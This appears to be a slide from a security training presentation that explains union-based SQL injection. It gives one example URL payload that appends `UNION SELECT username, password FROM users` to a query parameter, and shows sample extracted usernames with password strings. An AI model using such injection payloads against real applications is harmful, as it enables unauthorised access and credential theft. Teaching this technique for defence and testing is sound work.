

# Union-Based SQLi
Union-based SQLI is an in-band SQLi technique that leverages the  UNION SQL operator to combine the results of two queries into a  single result set
Example:
Input:
www.random.com/app.php?id='	UNION	SELECT	username,	password	FROM	users--
Output:
carlos  afibh9cjnkuwcsfobs7h  administrator  tn8f921skp5dzoy7hxpk